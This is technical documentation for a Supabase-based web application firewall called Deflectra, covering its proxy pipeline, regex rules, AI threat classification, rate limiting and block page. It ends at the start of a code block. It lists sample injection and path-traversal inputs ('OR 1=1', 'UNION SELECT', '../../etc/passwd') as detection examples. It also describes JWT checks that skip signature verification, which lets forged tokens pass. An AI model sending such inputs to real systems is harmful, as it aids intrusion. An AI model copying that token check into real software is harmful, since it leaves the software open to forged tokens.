










# Deflectra WAF — Technical Documentation

**Application Name:** Deflectra — Adaptive Web Shield  
**Date:** March 8, 2026  
**By:** Ritvik Indupuri

---

## Table of Contents

1. [Executive Summary](#executive-summary)
2. [System Architecture](#system-architecture)
3. [Authentication & Access Control](#authentication--access-control)
4. [Dashboard Overview](#dashboard-overview)
5. [Live Threat Map (Mapbox Globe)](#live-threat-map-mapbox-globe)
6. [Traffic Analytics Chart](#traffic-analytics-chart)
7. [Protected Sites Management](#protected-sites-management)
8. [WAF Proxy — Reverse Proxy Engine](#waf-proxy--reverse-proxy-engine)
9. [Rule Engine](#rule-engine)
10. [AI Threat Detection](#ai-threat-detection)
11. [API Shield](#api-shield)
12. [Rate Limiting](#rate-limiting)
13. [Real-Time Block Notifications](#real-time-block-notifications)
14. [Branded Block Page](#branded-block-page)
15. [Cloudflare Workers Integration](#cloudflare-workers-integration)
16. [Setup Guide](#setup-guide)
17. [Settings & Configuration](#settings--configuration)
18. [Email Notifications](#email-notifications)
19. [Database Architecture](#database-architecture)
20. [Edge Functions Reference](#edge-functions-reference)
21. [AI Auto-Fill Configuration](#ai-auto-fill-configuration)
22. [Security Controls & RLS Policies](#security-controls--rls-policies)
23. [Attack Detection — In-Depth](#attack-detection--in-depth)
24. [Future Integrations & Improvements](#future-integrations--improvements)
25. [Conclusion](#conclusion)

---

## Executive Summary

Deflectra is a fully functional, AI-powered Web Application Firewall (WAF) built as a modern single-page application. It operates as a **Layer 7 reverse proxy** that inspects, classifies, and either blocks or forwards HTTP requests to protected origin servers.

Unlike traditional WAFs that rely solely on static regex rules, Deflectra combines three layers of defense:

1. **Regex-Based Rule Engine** — Pattern matching against known attack signatures (SQLi, XSS, LFI, RCE) with configurable priority ordering.
2. **AI Threat Classification** — Google Gemini 3.1 Pro analyzes requests in real-time and classifies them as safe or malicious with confidence scores and geographic origin estimation.
3. **API Shield Enforcement** — JWT token validation, JSON schema validation, and per-IP rate limiting enforced at the proxy layer.

**Anyone can create an account** on Deflectra and connect their own web applications for WAF protection. The AI-powered onboarding system automatically crawls your site, detects your tech stack, and generates tailored WAF rules, rate limits, and API monitoring configurations.

The application features a full management dashboard with a 3D Mapbox threat globe, real-time WebSocket notifications, traffic analytics, and a branded block page that is served to attackers when requests are rejected.

### Key Metrics

| Metric | Value |
|--------|-------|
| Protected Sites | Unlimited per user |
| Rule Engine | Regex with priority ordering |
| AI Model | Google Gemini 3.1 Pro |
| Rate Limiting | Per-IP, per-path, configurable windows |
| JWT Validation | Decode + expiry check |
| Schema Validation | JSON structure + size limits |
| Block Page | Branded HTML with severity badges |
| Real-Time Alerts | WebSocket push via Supabase Realtime |
| Threat Visualization | 3D Mapbox GL globe |

---

## System Architecture


<p align="center"><em>Figure 1: Deflectra WAF System Architecture — Complete technical stack showing the React frontend, Supabase backend with Edge Functions, and external service integrations.</em></p>

### Architecture Breakdown

**Frontend Layer:**
The frontend is built with React 18, Vite, TypeScript, and Tailwind CSS. It uses shadcn/ui components with a custom dark cybersecurity-themed design system. All pages are wrapped in a `DashboardLayout` component that includes the sidebar navigation and the real-time threat notification listener.

**Backend Layer:**
The backend is powered by Supabase (PostgreSQL + Edge Functions + Realtime). The `waf-proxy` edge function is the core of the WAF — it receives all proxied requests and runs them through the inspection pipeline. Four edge functions handle different aspects of the system.

**External Services:**
- **Google Gemini 3.1 Pro** — AI threat classification via the Lovable AI Gateway
- **Mapbox GL** — 3D globe rendering for geographic threat visualization
- **Resend** — Email delivery for threat alerts and test notifications

---

## Authentication & Access Control

Deflectra uses Supabase Auth for user authentication with email/password credentials. The auth flow works as follows:

1. **Sign Up** — Users create an account with email and password (minimum 6 characters). A verification email is sent.
2. **Sign In** — Authenticated users are redirected to the dashboard. All routes except `/auth` are protected.
3. **Session Management** — Supabase handles JWT session tokens automatically. The `useAuth` hook provides `user`, `loading`, and `signOut` across all components.
4. **Row-Level Security** — Every database table has RLS policies ensuring users can only access their own data. The `user_id` column on every table is matched against `auth.uid()`.

**Anyone can create an account** and start protecting their own websites. The application is not limited to the developer's personal use.

### Auth Page UI

The login page features the Deflectra shield icon, gradient branding, and a toggle between Sign In and Create Account modes. The page uses the same dark design system as the dashboard.

---

## Dashboard Overview

The main dashboard (`/`) provides a real-time overview of the WAF's status with six stat cards:

| Card | Data Source | Description |
|------|------------|-------------|
| Threats Blocked | `protected_sites.threats_blocked` + `threat_logs` count | Total blocked requests across all time |
| Active Threats | `threat_logs` where severity is critical or high | Current high-severity threats |
| Attack Sources | Unique `source_country` values in `threat_logs` | Number of countries attacks originated from |
| Avg Response | — | Placeholder for proxy latency (future feature) |
| Protected Sites | `protected_sites` count | Number of registered origin servers |
| AI Engine | Static | Shows "Gemini 3.1 Pro" indicator |

Below the stats, the dashboard displays:
- **Live Threat Map** — A 3D Mapbox globe showing threat locations
- **Traffic Chart** — An area chart showing threats over time (24-hour buckets)
- **Threat Table** — Recent threat log entries with severity, type, IP, and action taken

<p align="center">
  
</p>

<p align="center"><em>Figure 1: Dashboard Overview — Real-time stat cards, embedded Mapbox threat map, traffic activity chart, and recent threat log table.</em></p>

---

## Live Threat Map (Mapbox Globe)

The threat map uses Mapbox GL JS to render an interactive 3D globe visualization of attack sources.



<p align="center"><em>Figure 1: Threat Globe Data Pipeline — How threat log coordinates are rendered as severity-coded markers on the 3D Mapbox globe.</em></p>

**Implementation Details:**
- **Data Source:** Queries `threat_logs` for entries with non-null `source_lat` and `source_lng` values
- **Severity Colors:** Critical (red), High (orange), Medium (yellow), Low (cyan)
- **Marker Sizes:** Critical (12px), High (9px), Medium (7px), Low (5px)
- **Projection:** Globe projection with atmosphere effect enabled
- **Auto-Rotation:** Globe rotates slowly at 0.3°/second when not being interacted with
- **Click Popups:** Clicking a marker shows threat type, severity, country, and source IP

---

## Traffic Analytics Chart

The traffic chart component (`TrafficChart.tsx`) visualizes threat activity over the past 24 hours using Recharts.

**How It Works:**
1. Queries `threat_logs` for the past 24 hours
2. Groups threats into hourly buckets using `created_at` timestamps
3. Renders an area chart with the accent color gradient fill
4. Shows threat count per hour with hover tooltips

---

## Protected Sites Management

The Protected Sites page (`/sites`) allows users to register origin servers that Deflectra will protect.

**Features:**
- **Add Site** — Enter a name and URL for your origin server
- **Proxy URL Generation** — Each site gets a unique proxy URL: `https://<project>.supabase.co/functions/v1/waf-proxy?site_id=<uuid>`
- **Copy to Clipboard** — One-click copy of the proxy URL
- **SSL Status** — Shows SSL validity indicator
- **Threats Blocked Counter** — Displays total blocked requests per site
- **AI Auto-Setup with Real Site Crawling** — One-click button that invokes the `auto-setup-waf` edge function, which performs a **live HTTP crawl** of the target site to detect technologies, discover API endpoints, and extract metadata before using AI to generate tailored WAF rules, rate limits, and API monitoring configs
- **Delete Site** — Remove a site from protection

### AI Auto-Setup Flow (with Real Crawling)

When a user adds a new site, the `auto-setup-waf` edge function performs a **real HTTP fetch** of the target URL before invoking the AI. This ensures all generated rules are based on actual site content, not guesses.



<p align="center"><em>Figure 1: AI Auto-Setup Flow — Real HTTP crawling of the target site followed by AI-powered generation of WAF rules, rate limits, and API monitoring configs based on actual discovered content.</em></p>

### What the Auto-Setup Crawler Discovers

The `auto-setup-waf` function uses the same `fetchSiteIntelligence()` crawler as the per-field AI generation. It extracts:

| Data | Example | How It's Used |
|------|---------|---------------|
| Technologies | React, Supabase, Stripe | Generates stack-specific attack rules (e.g., Supabase SQLi, React XSS) |
| API Endpoints | `/functions/v1/chatbot`, `/api/auth/login` | Creates rate limits and API Shield configs for actual paths |
| Meta Tags | `og:type`, `description` | Identifies site purpose (SPA, e-commerce, blog) |
| Script Sources | `/_next/static/`, `cdn.stripe.com` | Detects hosting platform and payment integrations |
| Form Actions | `/api/contact`, `/submit` | Protects POST endpoints with schema validation |
| Links | Internal navigation paths | Maps site structure for comprehensive coverage |

### Auto-Setup vs Per-Field Generation

Both AI generation features now use real HTTP crawling:

| Feature | Trigger | Edge Function | What It Generates |
|---------|---------|---------------|-------------------|
| **Auto-Setup** | Adding a new site | `auto-setup-waf` | Full WAF config: rules + rate limits + API endpoints (saved to DB automatically) |
| **Per-Field AI** | ✨ sparkle buttons on forms | `auto-generate-fields` | Individual form fields or full form values (populated in UI for review before saving) |

Both use the same crawling logic (`fetchSiteIntelligence`) and the same AI model (Google Gemini 3 Flash).

---

## WAF Proxy — Reverse Proxy Engine

The `waf-proxy` edge function is the core of Deflectra. It acts as a Layer 7 reverse proxy that inspects every incoming HTTP request through a multi-stage pipeline before forwarding clean requests to the origin server.

### Inspection Pipeline



<p align="center"><em>Figure 1: WAF Proxy Inspection Pipeline — The six-stage request inspection flow from incoming request to block/forward decision.</em></p>

### Pipeline Stages in Detail

**Stage 1 — Site Lookup:**
The proxy identifies the target site using the `x-deflectra-site-id` header or `site_id` query parameter. It queries `protected_sites` to retrieve the origin URL and the owning user's ID.

**Stage 2 — API Endpoint Matching:**
The proxy checks if the request path matches any registered API endpoint in `api_endpoints`. If matched, endpoint-specific protections are applied.

**Stage 3 — JWT Inspection:**
If the matched endpoint has `jwt_inspection` enabled:
- Extracts the Bearer token from the `Authorization` header
- Decodes the JWT payload (base64 decode, no signature verification — designed for structure validation)
- Checks for token presence, decodability, and expiration (`exp` claim vs current time)
- Missing, malformed, or expired tokens are blocked with a 403

**Stage 4 — Schema Validation:**
If the matched endpoint has `schema_validation` enabled and the request is POST/PUT/PATCH:
- Attempts to parse the request body as JSON
- Validates that the body is a proper object (not a primitive or null)
- Rejects payloads exceeding 1MB
- Malformed JSON is blocked

**Stage 5 — Rate Limiting:**
Queries `rate_limit_rules` for enabled rules matching the request path:
- Counts recent requests from the same IP in `rate_limit_hits` within the configured window
- If the count exceeds `max_requests`, the request is blocked
- Each request is logged to `rate_limit_hits` for future counting
- The rule's `triggered_count` is incremented on each trigger

**Stage 6 — WAF Rules (Regex):**
Loads all enabled rules from `waf_rules` ordered by priority:
- Constructs a check string from `${targetPath} ${requestBody}`
- Tests each rule's regex pattern against the check string (case-insensitive)
- First matching "block" rule triggers a block
- Rules are processed in priority order (lower number = higher priority)

**Stage 7 — AI Analysis:**
If no regex rule matched, the request is sent to **Google Gemini 3.1 Pro** for deep threat classification:
- The AI receives the full request context: method, path, body (first 500 chars), user-agent, and source IP
- Uses structured **tool calling** to guarantee a parseable JSON response containing: `is_threat`, `threat_type`, `severity`, `confidence`, `reason`, `source_lat`, `source_lng`, `source_country`
- The AI evaluates for 10+ threat categories: SQLi, XSS, RCE, LFI, bot abuse, rate abuse, credential stuffing, API abuse, CSRF, and malformed requests
- Returns a confidence score (0-100%) and a human-readable explanation of why the request was flagged or allowed
- If classified as a threat with action "blocked", the request is rejected
- Geographic coordinates from the AI response are used for threat map visualization

**Stage 8 — Logging & Response:**
- All threats (blocked or logged) are recorded in `threat_logs` with full request metadata
- Blocked requests receive the branded HTML block page (403)
- Clean requests are forwarded to the origin server with `X-Deflectra-Verified: true` header

---

## Rule Engine

The Rule Engine (`/rules`) provides a CRUD interface for managing regex-based WAF rules.

**Rule Properties:**

| Field | Type | Description |
|-------|------|-------------|
| `name` | text | Human-readable rule name |
| `pattern` | text | Regex pattern to match against requests |
| `category` | enum | sqli, xss, rce, lfi, custom, rate_limit, geo_block |
| `severity` | enum | critical, high, medium, low |
| `rule_type` | enum | block, challenge, log, allow |
| `priority` | integer | Execution order (lower = first, default 100) |
| `enabled` | boolean | Toggle rule on/off without deleting |
| `description` | text | Optional notes about the rule |

**Category Color Coding:**
- SQL Injection — Red/destructive
- XSS — Orange/warning  
- RCE — Purple
- LFI — Cyan/primary
- Custom — Blue

**Features:**
- Create rules with name, regex pattern, category, severity, action type, and priority
- Toggle rules enabled/disabled
- Expand rules to see full pattern and description
- Delete rules
- Rules are applied in the waf-proxy in priority order

---

## AI Threat Detection

The AI Detection page (`/ai-detection`) provides a sandbox for testing how Deflectra's AI classifies requests, plus a view of recent AI detections.

### How AI Threat Detection Works

Deflectra's AI threat detection is powered by **Google Gemini 3.1 Pro** via the Lovable AI Gateway. Here's the complete flow:



<p align="center"><em>Figure 1: AI Threat Detection Pipeline — How requests flow through regex pre-filtering and into the Gemini 3.1 Pro AI for deep analysis.</em></p>

#### Step-by-Step AI Analysis:

1. **Context Preparation** — The WAF prepares a structured payload containing:
   - HTTP method (GET, POST, PUT, DELETE)
   - Request path and query parameters
   - Request body (first 500 characters for performance)
   - User-Agent header
   - Source IP address

2. **AI Model Invocation** — The payload is sent to Google Gemini 3.1 Pro via the Lovable AI Gateway with:
   - A detailed system prompt defining DEFLECTRA's role as a WAF analyzer
   - Instructions for detecting 10+ threat categories
   - Structured tool calling to guarantee parseable JSON output

3. **Threat Categories Detected**:
   | Category | Code | Description |
   |----------|------|-------------|
   | SQL Injection | `sqli` | Database query manipulation attempts |
   | Cross-Site Scripting | `xss` | Script injection in parameters/body |
   | Remote Code Execution | `rce` | Command injection attempts |
   | Local File Inclusion | `lfi` | Path traversal attacks (../../etc/passwd) |
   | Bot/Crawler Abuse | `bot` | Automated scraping or reconnaissance |
   | Rate Abuse | `rate_abuse` | Rapid-fire request patterns |
   | Credential Stuffing | `credential_stuffing` | Brute-force login attempts |
   | API Abuse | `api_abuse` | Malformed or excessive API usage |
   | CSRF Attempts | `csrf` | Cross-site request forgery patterns |
   | Malformed Requests | `malformed` | Invalid or corrupted HTTP structures |

4. **AI Response Structure** — The AI returns:
   ```json
   {
     "is_threat": true,
     "threat_type": "sqli",
     "severity": "critical",
     "action": "blocked",
     "confidence": 95,
     "explanation": "Request contains SQL injection pattern: OR 1=1 in query parameter",
     "indicators": ["OR 1=1", "UNION SELECT", "comment injection --"]
   }
   ```

5. **Confidence Score Interpretation**:
   - **90-100%** — Almost certainly an attack, auto-blocked
   - **60-89%** — Likely malicious, blocked or challenged based on settings
   - **30-59%** — Suspicious, may be logged for review (potential false positive)
   - **0-29%** — Probably safe, allowed through

6. **Logging & Visualization** — Threats are logged to `threat_logs` with full metadata including AI-estimated geographic coordinates for the 3D threat globe.

### Simulate Incoming Request

Users can craft test requests with:
- **Target Protected Site** — Select from registered sites
- **Request Path** — The URL path to test (e.g., `/api/users?id=1 OR 1=1`)
- **Method** — GET, POST, PUT, DELETE
- **Attacker IP** — Optional, auto-generated if blank
- **User Agent** — Optional
- **Request Body** — Optional JSON payload

The test request is sent to the `analyze-threat` edge function, which calls Gemini 3.1 Pro to classify it. Results show:
- **Verdict** — BLOCKED or ALLOWED
- **Threat Type** — SQLi, XSS, Path Traversal, etc.
- **Confidence** — 0-100% score
- **Action** — What the WAF would do
- **Explanation** — AI-generated reasoning
- **Indicators** — Specific suspicious patterns found

### Recent AI Detections

Shows the 10 most recent entries from `threat_logs` with:
- Threat type and timestamp
- AI explanation or matched rule description
- Confidence percentage with proper formatting (handles both 0-1 and 0-100 scales)
- Info tooltip explaining the confidence score breakdown:
  - 90-100%: Almost certainly an attack
  - 60-89%: Likely malicious
  - 30-59%: Suspicious, possible false positive
  - 0-29%: Probably safe

### Block Page Preview

An embedded iframe preview showing exactly what attackers see when Deflectra blocks their request. Toggle the preview with a Show/Hide button.

---

## API Shield

The API Shield (`/api-protection`) provides endpoint-level security controls.

### Features

- **Register Endpoints** — Add API paths with method, and toggle protections:
  - Schema Validation (JSON body validation)
  - JWT Inspection (Bearer token validation)
  - Rate Limiting (per-endpoint rate control)
- **Request/Block Counters** — Track `requests_today` and `blocked_today` per endpoint
- **Test Button** — Per-endpoint test that runs 4 checks:

### Test Button Pipeline



<p align="center"><em>Figure 1: API Shield Test Pipeline — The four automated tests run for each endpoint when the test button is clicked.</em></p>

Each test sends a real request through the `waf-proxy` edge function and checks if it passes or gets blocked:
1. **Clean Request** — Should pass (validates WAF doesn't false-positive)
2. **SQLi Attack** — Should be blocked (validates rule engine works)
3. **No-JWT Request** — Should be blocked if JWT inspection is enabled
4. **Malformed JSON** — Should be blocked if schema validation is enabled

---

## Rate Limiting

The Rate Limiting page (`/rate-limiting`) allows users to create per-IP, per-path rate limit rules.

**Rule Configuration:**

| Field | Description | Default |
|-------|-------------|---------|
| Name | Human-readable rule name | — |
| Path | URL path pattern to match | — |
| Max Requests | Maximum requests allowed in the window | 100 |
| Window (seconds) | Time window for counting requests | 60 |
| Action | What to do when limit is exceeded (block/challenge/throttle) | block |
| Enabled | Toggle on/off | true |

**How Rate Limiting Works in the Proxy:**

1. When a request arrives at `waf-proxy`, it loads all enabled rate limit rules for the site's owner
2. For each matching rule (path match), it counts entries in `rate_limit_hits` from the same IP within the window
3. If the count exceeds `max_requests`, the request is blocked and `triggered_count` is incremented
4. Each request is logged to `rate_limit_hits` for future counting

**Stats Displayed:**
- Total Rules configured
- Active Rules (enabled)
- Total Triggers (times limits were hit)

---

## Real-Time Block Notifications

Deflectra uses Supabase Realtime to push instant notifications when attacks are blocked.



<p align="center"><em>Figure 1: Real-Time Notification Flow — How blocked attacks trigger instant toast notifications in the dashboard via WebSocket.</em></p>

**Implementation:**
- The `useRealtimeThreats` hook subscribes to `INSERT` events on `threat_logs` filtered by `user_id`
- When a blocked threat is inserted, a Sonner toast appears with the attacker's IP and threat type
- The hook is activated in `DashboardLayout`, so notifications work on every page
- Blocked attacks show error-style toasts; logged threats show warning-style toasts

---

## Branded Block Page

When the WAF blocks a request, instead of returning raw JSON, it serves a fully branded HTML page.

### How Blocking Works — Complete Flow

When a request is determined to be malicious (either by regex rules or AI classification), the WAF executes the following blocking sequence:



<p align="center"><em>Figure 1: Block Execution Flow — The sequence of events when Deflectra blocks a malicious request.</em></p>

#### Step-by-Step Blocking Mechanism:

**Step 1 — Threat Logging:**
Before responding, the WAF logs the threat to the `threat_logs` table with full metadata:
- Source IP and geo-coordinates (for globe visualization)
- Threat type and severity
- Matched rule ID (if regex) or AI classification
- Request path, method, and user-agent
- Full details as JSONB (confidence score, AI explanation, indicators)

**Step 2 — Block Page Generation:**
The `waf-proxy` edge function constructs a self-contained HTML document:
```javascript
const blockPageHtml = `<!DOCTYPE html>
<html lang="en">
<head>
